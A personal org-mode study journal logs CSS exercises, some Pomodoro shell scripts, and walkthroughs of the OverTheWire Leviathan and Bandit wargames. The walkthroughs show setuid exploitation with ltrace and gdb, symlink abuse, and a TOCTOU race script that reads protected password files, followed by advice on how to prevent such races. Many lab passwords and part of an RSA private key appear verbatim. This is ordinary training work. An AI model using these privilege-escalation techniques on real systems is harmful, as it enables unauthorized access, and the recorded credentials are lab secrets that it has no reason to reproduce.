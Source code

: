 # -*- auto-fill-function: nil; eval: (add-hook 'after-save-hook 'org-babel-tangle nil t); -*-

Current project: [[https://github.com/rafaelbeirigo/odin-css-exercises/][Web Development Foundations Course from The Odin Project]].

* [2025-10-18 Sat]

Took a step back, and worked on fundamentals, and also cleared my mind.
It paid off: could solve yesterday's "humbling" challenge and some more today.

** Seinfeld Checkmark

[[file:images/2025-10-18_seinfeld.jpeg]]

* [2025-10-17 Fri]

Tough day today.

Took a beating on two CTFs; one expected, and the other humbling...

** Seinfeld Checkmark

[[file:images/2025-10-17_seinfeld.jpeg]]

* [2025-10-16 Thu]

** CSS: we got assignment!

- [X] [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/block-and-inline/01-margin-and-padding-1][01-margin-and-padding-1]]
- [X] [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/block-and-inline/02-margin-and-padding-2][02-margin-and-padding-2]]

** Pomodoro

I may have spent more time than I should have "sharpening this axe"...
Anyway, need a command-line Pomodoro?

*** ~pomodoro~

#+begin_src shell
#!/bin/bash

ME=$(basename $0)

if [ $# -eq 1 ] && ( [ $1 == "-h" ] || [ $1 == "--help" ] )
then
    echo "Usage: $ME [POPUP_NOTIFICATION [OSD_COUNTDOWN [TITLE]]]

POPUP_NOTIFICATION (boolean; default: \"false\")
    Controls if a popup will be shown when time is up.
OSD_COUNTDOWN (boolean; default: \"true\")
    Controls if the countdown will be show on screen (using OSD).
TITLE (string; default: \"Pomodoro\")
     is the headliner of the popup notification.

Boolean values should be \"true\" or \"false\"."
    exit 0
fi

[ $# -ge 1 ] && POPUP_NOTIFICATION=$1 || POPUP_NOTIFICATION=false
[ $# -ge 2 ] && OSD_COUNTDOWN=$2 || OSD_COUNTDOWN=true
[ $# -ge 3 ] && TITLE=$3 || TITLE="Pomodoro"

BIG_INTERVAL="25m"
SHORT_INTERVAL="5m"

TIMER_ARGS="$TITLE $POPUP_NOTIFICATION $OSD_COUNTDOWN"
while [ true ]
do
    timer $BIG_INTERVAL $TIMER_ARGS
    timer $SHORT_INTERVAL $TIMER_ARGS
done
#+end_src

*** ~timer~

#+begin_src shell
#!/bin/bash

ME=$(basename $0)

USAGE="Usage: $ME TIME_AMOUNT [TITLE [POPUP_NOTIFICATION [OSD_COUNTDOWN]]]

TITLE (string; default: \"Pomodoro\")
     is the headliner of the popup notification.
POPUP_NOTIFICATION (boolean; default: \"false\")
    Controls if a popup will be shown when time is up.
OSD_COUNTDOWN (boolean; default: \"true\")
    Controls if the countdown will be show on screen (using OSD).

Boolean values should be \"true\" or \"false\"."

if [ $1 == "-h" ] || [ $1 == "--help" ]
then
    echo "$USAGE"
    exit 0
fi

die () {
    echo >&2 "$@"
    exit 1
}

[ $# -ge 1 ] && TIME=$1 || die $USAGE
[ $# -ge 2 ] && TITLE=$2 || TITLE="Timer"
[ $# -ge 3 ] && POPUP_NOTIFICATION=$3
[ $# -ge 4 ] && OSD_COUNTDOWN=$4

OSD_CAT_FLAGS='--pos=top --align=right --delay=60 --shadow=3 --outline=0 --outlinecolour=black --color=cyan --font=-misc-fixed-medium-r-normal--75-*-*-*-*-*-*'

# Determine the unit for the time (minutes or seconds, default to minutes)
UNIT=${TIME: -1}
if [[ $UNIT = @(m|s) ]];
then
    DIGITS=${TIME::-1}
else
    UNIT=m
    DIGITS=$TIME
fi

for TIC in $(seq ${DIGITS} -1 1);
do
    # Display remaining time on the terminal
    echo Remaining: $TIC$UNIT

    # Display remaining time via OSD
    if $OSD_COUNTDOWN
    then
        echo "${TIC}${UNIT}" | osd_cat $OSD_CAT_FLAGS &
    fi

    sleep 1$UNIT
done

# Pop-up notification at the end of the timer
if $POPUP_NOTIFICATION
then
    notify-send --urgency=critical \
                --expire-time=0 \
                "$TITLE" \
                "Time ($TIME) is up."
fi

# Give an audible cue that the timer is done
ding
#+end_src

*** ~ding~

#+begin_src shell
#!/bin/bash

mocp --play /usr/share/sounds/freedesktop/stereo/complete.oga
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-16_seinfeld.jpeg]]

* [2025-10-15 Wed]

** CSS

Studied the Box Model.
This time with exercises: much better.

** CTF

Back to overthewire.
picoCTF helped.
It fealt really easier today.
picoCTF /teaches/ things like how to use gdb.
I could think of many different approaches today because of that.

Finished Leviathan \o/
Loved the challenges!

*** overthewire.org

**** 3

f0n8h2iWLP

- setuid binary in home folder
- ~ltrace~ showed a call to ~strcmp~ with the payload
- input payload gives setuid shell

#+begin_example
leviathan3@leviathan:~$ ltrace ./level3 
fgets(Enter the password> snlprintf
"snlprintf\n", 256, 0xf7fae5c0)                                                                               = 0xffffd24c
strcmp("snlprintf\n", "snlprintf\n")                                                                                = 0
puts("[You've got shell]!"[You've got shell]!

leviathan3@leviathan:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ id
uid=12004(leviathan4) gid=12003(leviathan3) groups=12003(leviathan3)
$ cat /etc/leviathan_pass/leviathan4
#+end_example

**** 4

WG1egElCvO

#+begin_example
leviathan4@leviathan:~$ ll
total 24
drwxr-xr-x   3 root root       4096 Oct 14 09:27 ./
drwxr-xr-x 150 root root       4096 Oct 14 09:29 ../
-rw-r--r--   1 root root        220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root root       3851 Oct 14 09:19 .bashrc
-rw-r--r--   1 root root        807 Mar 31  2024 .profile
dr-xr-x---   2 root leviathan4 4096 Oct 14 09:27 .trash/
leviathan4@leviathan:~$ find .trash/
.trash/
.trash/bin
leviathan4@leviathan:~$ cd .trash/
leviathan4@leviathan:~/.trash$ ll
total 24
dr-xr-x--- 2 root       leviathan4  4096 Oct 14 09:27 ./
drwxr-xr-x 3 root       root        4096 Oct 14 09:27 ../
-r-sr-x--- 1 leviathan5 leviathan4 14940 Oct 14 09:27 bin*
leviathan4@leviathan:~/.trash$ file bin
bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=52e379ac2e364243895250cb84038a8bf5d3e4e5, for GNU/Linux 3.2.0, not stripped
leviathan4@leviathan:~/.trash$ ./bin
00110000 01100100 01111001 01111000 01010100 00110111 01000110 00110100 01010001 01000100 00001010 
#+end_example

There's a binary that prints a binary sequence.
Converted to ASCII, it give the next password.

**** 5

0dyxT7F4QD

There is a setuid binary in the home folder.

#+begin_example
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
#+end_example

It wants a file.

#+begin_example
leviathan5@leviathan:~$ echo "abcdefg" > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
abcdefg
#+end_example

It spills out that file's contents.

#+begin_example
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
szo7HDB88w
#+end_example

**** 6

szo7HDB88w

***** DONE ~strings~ in the binary?  No

***** Can I use gdb to see the pin code?

#+begin_src shell
leviathan6@leviathan:~$ gdb --args ./leviathan6 1234
#+end_src

After ~disassemble main~, I could see there's a comparison followed by ~jne~.

#+begin_example
=> 0x0804921a <+84>:    cmp    %eax,-0xc(%ebp)
   0x0804921d <+87>:    jne    0x804924a <main+132>
#+end_example

Maybe it's here they're testing the input for equality.

Examining the registers

#+begin_example
(gdb) info registers
eax            0x4d2               1234
ebp            0xffffd368          0xffffd368
#+end_example

- ~eax~ has the input
- ~ebp~ has a memory address
  - the comparison offsets that address by ~0xc~


Examining the contents of that piece of memory:

#+begin_example
(gdb) x $ebp-0xc
0xffffd35c:     0x00001bd3
#+end_example

~0x1bd3~ == 7123

#+begin_example
leviathan6@leviathan:~$ ./leviathan6 7123
$ id
uid=12007(leviathan7) gid=12006(leviathan6) groups=12006(leviathan6)
$ cat /etc/leviathan_pass/leviathan7
qEs5Io5yM8
#+end_example

**** 7
qEs5Io5yM8

#+begin_example
leviathan7@leviathan:~$ ll
total 24
drwxr-xr-x   2 root       root       4096 Oct 14 09:27 ./
drwxr-xr-x 150 root       root       4096 Oct 14 09:29 ../
-rw-r--r--   1 root       root        220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root       3851 Oct 14 09:19 .bashrc
-r--r-----   1 leviathan7 leviathan7  178 Oct 14 09:27 CONGRATULATIONS
-rw-r--r--   1 root       root        807 Mar 31  2024 .profile
#+end_example

** Seinfeld Checkmark

[[file:images/2025-10-15_seinfeld.jpeg]]

* [2025-10-14 Tue]

The slope got steep at overthewire.org.
Went to picoCTF for some structured intro.
Today I read the Primer and worked on some playlists:
- The Beginner's Guide to the picoGym: 25/25
- Cryptography and picoGym Learning Intro 1/15
- Low Level Binary Intro 38/46
- Forensics in CTF's 6/17
- Python in CTF's 13/19
- Vault Door Series 1/8
- Sleuthkit Series 2/2
- PW Crack Series 5/5

** Seinfeld Checkmark

[[file:images/2025-10-14_seinfeld.jpeg]]

* [2025-10-13 Mon]

Some [[https://overthewire.org/][bit scrubbing]] (these last days) and today!

** Leviathan

*** Intro

#+begin_quote
Leviathan’s levels are called leviathan0, leviathan1, … etc. and can be accessed on

leviathan.labs.overthewire.org through SSH on port 2223.

To login to the first level use:

Username: leviathan0
Password: leviathan0

Data for the levels can be found in the homedirectories. You can look at /etc/leviathan_pass for the various level passwords.
#+end_quote

*** Functions

**** Automatically assemble SSH command from given user and password (C-. C-.)

#+begin_src elisp :results none
(defun hack-ctf-overthewire-dot-org-leviathan-ssh-command
    (arg user password)
  "Read USER and PASSWORD then return complete ssh command.
When ARG in non-nil do not use comman `sshpass' to automatically
send PASSWORD to `ssh'.  Apparently the first connection must be
established the old way."
  (interactive
   (list
    current-prefix-arg
    (read-string "user: "
                 "leviathan" ;; challenge's prefix
                 hack-ctf-user-history)
    (read-string "password: " nil
                 hack-ctf-password-history)))
  (let* ((challenge-subdomain "leviathan")
         (challenge-port "2223")
         (url (concat challenge-subdomain ".labs.overthewire.org"))
         (ssh-command (concat
                       (unless arg (concat "sshpass -p " password " "))
                       "ssh " url
                       " -p " challenge-port
                       " -l " user)))
    (kill-new ssh-command)
    (message "hack-ctf: ssh command copied to clipboard")
    (sleep-for 2)
    (if (and arg (yes-or-no-p "copy password to clipboard now?"))
        (kill-new password))))
(keymap-local-set "C-. C-."
                  'hack-ctf-overthewire-dot-org-leviathan-ssh-command)
#+end_src

*** 0 (I /have/ the password for leviathan0 and /want/ the one for leviathan1)
leviathan0

#+begin_example
leviathan0@leviathan:~/.backup$ cat bookmarks.html
#+end_example

#+begin_example
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is 3QJ3TgzHDq" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
#+end_example

*** 1

3QJ3TgzHDq

#+begin_example
leviathan1@leviathan:~$ ll
total 36
drwxr-xr-x   2 root       root        4096 Aug 15 13:17 ./
drwxr-xr-x 150 root       root        4096 Aug 15 13:18 ../
-rw-r--r--   1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root        3851 Aug 15 13:09 .bashrc
-r-sr-x---   1 leviathan2 leviathan1 15084 Aug 15 13:17 check*
-rw-r--r--   1 root       root         807 Mar 31  2024 .profile
#+end_example

#+begin_example
leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$
$ cat /etc/leviathan_pass/leviathan2
cat: /etc/leviathan_pass/leviathan2: Permission denied
$ whoami
leviathan1
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ pwd
/home/leviathan1
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
NsN1HwFoyN
#+end_example

If I run it without ltrace, it does not drop privileges.

#+begin_example
leviathan1@leviathan:~$ ltrace ./check <------------------------------------------------------------------------------------------------------------- WITH LTRACE
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1) <------------------------------------------------------------------------------- DROPPED PRIVILEGES
$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd474, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
leviathan1@leviathan:~$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
#+end_example

*** 2

NsN1HwFoyN

**** Poke

***** Successful execution

#+begin_example
leviathan2@leviathan:~$ ltrace ./printfile .profile 
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
#+end_example

***** Order of tests and calls

Previous one:

#+begin_example
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
#+end_example

This one:

#+begin_example
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
#+end_example

**** DONE Does it print the password file without tracing?  No

#+begin_example
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3 
You cant have that file...
#+end_example

**** DONE Does it get ~cat~ from PATH?  No

#+begin_example
leviathan2@leviathan:~$ export PATH=""
leviathan2@leviathan:~$ ./printfile .profile 
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
#+end_example
**** DONE Printar link mutante.  SOLVED
#+begin_example
#!/bin/bash


LEV=/etc/leviathan_pass/leviathan
LEV2=${LEV}2
LEV3=${LEV}3
L=/tmp/chaves-L
PRINTFILE=/home/leviathan2/printfile

ln -sf $LEV2 $L
$PRINTFILE $L &
ln -sf $LEV3
#+end_example

#+begin_example
leviathan2@leviathan:~$ vi /tmp/chaves.sh

---

#!/bin/bash

ln -sf /etc/leviathan_pass/leviathan2 /tmp/chaves-L
/home/leviathan2/printfile /tmp/chaves-L &
ln -sf /etc/leviathan_pass/leviathan3 /tmp/chaves-L

---

leviathan2@leviathan:~$ /tmp/chaves.sh
leviathan2@leviathan:~$ f0n8h2iWLP
#+end_example
**** ChatGPT comments

[[https://chatgpt.com/share/68ed9138-3f28-8006-ac1e-835908865878][ChatGPT]]

***** More robust TOCTOU script

#+begin_example
#!/bin/bash
# deterministic TOCTOU flipper for CTF practice only

GOOD="/home/leviathan2/.profile"   # a file RUID can read (replace with real file)
SECRET="/etc/leviathan_pass/leviathan3" # the secret you want printed
LINK="/tmp/chaves-L"
BINARY="/home/leviathan2/printfile"     # the setuid binary that does: check ACCESS then exec cat LINK

# make sure the link starts pointing to the readable file
ln -sf "$GOOD" "$LINK"

# start the target program in the background and capture its PID
"$BINARY" "$LINK" &
TARGET_PID=$!

# while the target is still alive, keep flipping the symlink
while kill -0 "$TARGET_PID" 2>/dev/null; do
  ln -sf "$GOOD" "$LINK"
  ln -sf "$SECRET" "$LINK"
done

# wait for the target to finish and print exit status
wait "$TARGET_PID"
echo "target exited with $?"
#+end_example


#+begin_example
leviathan2@leviathan:~$ /tmp/chaves.sh
f0n8h2iWLP
target exited with 0
#+end_example

***** Correct program design (how this should be prevented)

A secure program that needs to both check a user’s rights and open/use a file under another UID must avoid TOCTOU by not using separate pathname checks. Secure patterns include:

Open then verify using the opened descriptor

fd = open(path, O_RDONLY|O_NOFOLLOW);

fstat(fd, &st); Verify ownership/permissions on fd (not on path). Use fchmod/fchown/check st fields as needed. Because operations act on the already-opened descriptor, the target cannot be swapped by a symlink after open.

Use file-descriptor-based operations instead of re-resolving the pathname later (fexecve / run with fd or read from fd directly). That prevents lookup at time-of-use.

Avoid access() for security checks, because it checks current real/effective permissions against the filename and is vulnerable to TOCTOU. If the program needs to verify permissions, open the file (with the minimum privileges) and operate on the returned descriptor.

Drop privileges safely: if the program must switch to EUID to read something privileged, handle UID transitions carefully:

Temporarily set effective UID to the one that should do the check, open/lock the file descriptor, then set EUID to the other identity and use the already-open FD.

Use O_NOFOLLOW to prevent symlink abuse where appropriate.

Use kernel-level protections if available: openat2() with RESOLVE_NO_SYMLINKS (newer kernels) or seccomp / file capabilities to narrow attack surface.

In short: do the check and the use on the same resolved kernel object (the same FD), and do not re-resolve the pathname.

*** 3

f0n8h2iWLP

*** Seinfeld Checkmark

[[file:images/2025-10-13_seinfeld.jpeg]]

** Bandit

*** 0
ZjLjTmM6FvvyRnrb2rfNWOZOTa6ip5If

*** 1
263JGJPfgU6LtdEvgfWU1XP5yac29mFx

*** 2
MNk8KNH3Usiio41PRUEoDFPqfxLPlSmx

*** 3
2WmrDFRmJIq3IPxneAaMGhap0pFhF3NJ

*** 4
4oQYVPkxZOOEOO5pTW81FB8j8lxXGUQw

*** 5
Preciso achar um arquivo:
- human-readable
- 1033 bytes in size
- not executable


Será que o comando ~find~ dá isso?

#+begin_src bash
find . -type f -size 1033c -exec cat {} +
#+end_src

HWasnPhtq9AVKe0dmk45nxy20cvUa6EG

*** 6

file that:

    - owned by user bandit7
    - owned by group bandit6
    - 33 bytes in size

#+begin_src shell
find / 2>/dev/null -user bandit7 -group bandit6 -size 33c -exec cat {} \;
#+end_src

morbNTDkSW6jIlUc0ymOdMaLnOlFVAaj

*** 7

dfwvzFQi4mU0wfNbFOe9RoWskMLg7eEc

*** 8
4CKMh1JI91bUIZZPXDqGanal4xvAg0JM

*** 9

~strings data.txt~

FGUW5ilLVJrxX9kMYMmlN4MgbpfMiqey

*** 10

Nesse tem uma string codificada em base64.

#+begin_src shell
base64 -d data.txt
#+end_src

dtR173fZKb0RRsDFSGsg2RWnpNVj3qRr

*** 11

Nesse rotacionaram as letras em 13 posições.

Essa é uma cifra conhecida já, a tal da ROT13.
26 letras no falnalabeto: f == f^{-1}.
ROT13 é sua própria inversa.

#+begin_src shell
tr 'A-Za-z' 'N-ZA-Mn-za-m' < data.txt
#+end_src

7x16WNeHIi5YkIhWsfFIqoognUTyj9Q4

*** 12

Agora brotou um hexdump em plain text.
They tell it's a file that was compressed multiple times.

I need to get the file that generated that hexdump.
This can be done with:

#+begin_src shell
xxd -r data.txt
#+end_src

Aí foi uma cascata de uncompressing in several formats (bz2, gz, tar).

FO5dwFsc0cbaIiH0h8J2eUks2vdTDwAn

*** 13

#+begin_quote
The password for the next level is stored in /etc/bandit_pass/bandit14 and can only be read by user bandit14.

For this level, you don’t get the next password, but you get a private SSH key that can be used to log into the next level.

Note: localhost is a hostname that refers to the machine you are working on
#+end_quote

1. I copied the contents of the bandit14's private key that was in the home directory.
2. Then I renamed it to ~id_rsa~.
3. Then

#+begin_src shell
ssh bandit.labs.overthewire.org -p 2220 -i ~/.ssh/id_rsa_overthewire.org-bandit14-private-key -l bandit14
#+end_src

*** 14

#+begin_quote
The password for the next level can be retrieved by submitting the password of the current level to port 30000 on localhost.
#+end_quote

I got the pass from the folder mentioned in the previous Bandit:
MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS

I want to send that string (those bytes) to localhost on port 30000.

After readin man telnet.

#+begin_src shell
telnet localhost 30000
#+end_src

This opens a connection, and I can input text.
I typed the password, ENTER, and voilà:

8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

*** 15

#+begin_quote
The password for the next level can be retrieved by submitting the password of the current level to port 30001 on localhost using SSL/TLS encryption.
#+end_quote

I connected to the server/port using ~openssl~.
It's the same procedure as the telnet, but Secure®.

#+begin_src shell
openssl s_client -crlf -connect localhost:30001
#+end_src

kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx

*** 16

#+begin_quote
The credentials for the next level can be retrieved by submitting the password of the current level to a port on localhost in the range 31000 to 32000.
First find out which of these ports have a server listening on them.
Then find out which of those speak SSL/TLS and which don’t.
There is only 1 server that will give the next credentials, the others will simply send back to you whatever you send to it.
#+end_quote

#+begin_example
bandit16@bandit:~$ nmap -p 31000-32000 localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 00:02 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00010s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT      STATE SERVICE
31046/tcp open  unknown
31518/tcp open  unknown
31691/tcp open  unknown
31790/tcp open  unknown
31960/tcp open  unknown
#+end_example

#+begin_src shell
for p in 31046 31518 31691 31790 31960; do openssl s_client -crlf -connect localhost:$p; done;
#+end_src

Testing connection:

| 31046 | Secure  Renegotiation  IS  NOT  supported |
| 31518 |                                           |
| 31691 |                                           |
| 31790 |                                           |
| 31960 |                                           |

I was having a problem:

#+begin_example
    Extended master secret: no
    Max Early Data: 0
---
read R BLOCK
kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx    <---- sent the current passwor
KEYUPDATE                           <---- received this message
#+end_example

This happened because the sent data started with a *k*, that has a meaning in the /interactive/ session.

[[https://stackoverflow.com/a/58574851][This answer on Stackoverflow]] suggests to avoid using the interactive session with ~ign_eof~:

#+begin_src shell
for p in 31046 31518 31691 31790 31960; do openssl s_client -ign_eof -crlf -connect localhost:$p; done;
#+end_src

The correct one was:

#+begin_src shell
openssl s_client -ign_eof -crlf -connect localhost:31790
#+end_src

Got a private key :)

#+begin_src id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAvmOkuifmMg6HL2YPIOjon6iWfbp7c3jx34YkYWqUH57SUdyJ
imZzeyGC0gtZPGujUSxiJSWI/oTqexh+cAMTSMlOJf7+BrJObArnxd9Y7YT2bRPQ
Ja6Lzb558YW3FZl87ORiO+rW4LCDCNd2lUvLE/GL2GWyuKN0K5iCd5TbtJzEkQTu
DSt2mcNn4rhAL+JFr56o4T6z8WWAW18BR6yGrMq7Q/kALHYW3OekePQAzL0VUYbW
JGTi65CxbCnzc/w4+mqQyvmzpWtMAzJTzAzQxNbkR2MBGySxDLrjg0LWN6sK7wNX
x0YVztz/zbIkPjfkU1jHS+9EbVNj+D1XFOJuaQIDAQABAoIBABagpxpM1aoLWfvD
KHcj10nqcoBc4oE11aFYQwik7xfW+24pRNuDE6SFthOar69jp5RlLwD1NhPx3iBl
J9nOM8OJ0VToum43UOS8YxF8WwhXriYGnc1sskbwpXOUDc9uX4+UESzH22P29ovd
d8WErY0gPxun8pbJLmxkAtWNhpMvfe0050vk9TL5wqbu9AlbssgTcCXkMQnPw9nC
YNN6DDP2lbcBrvgT9YCNL6C+ZKufD52yOQ9qOkwFTEQpjtF4uNtJom+asvlpmS8A
vLY9r60wYSvmZhNqBUrj7lyCtXMIu1kkd4w7F77k+DjHoAXyxcUp1DGL51sOmama
+TOWWgECgYEA8JtPxP0GRJ+IQkX262jM3dEIkza8ky5moIwUqYdsx0NxHgRRhORT
8c8hAuRBb2G82so8vUHk/fur85OEfc9TncnCY2crpoqsghifKLxrLgtT+qDpfZnx
SatLdt8GfQ85yA7hnWWJ2MxF3NaeSDm75Lsm+tBbAiyc9P2jGRNtMSkCgYEAypHd
HCctNi/FwjulhttFx/rHYKhLidZDFYeiE/v45bN4yFm8x7R/b0iE7KaszX+Exdvt
SghaTdcG0Knyw1bpJVyusavPzpaJMjdJ6tcFhVAbAjm7enCIvGCSx+X3l5SiWg0A
R57hJglezIiVjv3aGwHwvlZvtszK6zV6oXFAu0ECgYAbjo46T4hyP5tJi93V5HDi
Ttiek7xRVxUl+iU7rWkGAXFpMLFteQEsRr7PJ/lemmEY5eTDAFMLy9FL2m9oQWCg
R8VdwSk8r9FGLS+9aKcV5PI/WEKlwgXinB3OhYimtiG2Cg5JCqIZFHxD6MjEGOiu
L8ktHMPvodBwNsSBULpG0QKBgBAplTfC1HOnWiMGOU3KPwYWt0O6CdTkmJOmL8Ni
blh9elyZ9FsGxsgtRBXRsqXuz7wtsQAgLHxbdLq/ZJQ7YfzOKU4ZxEnabvXnvWkU
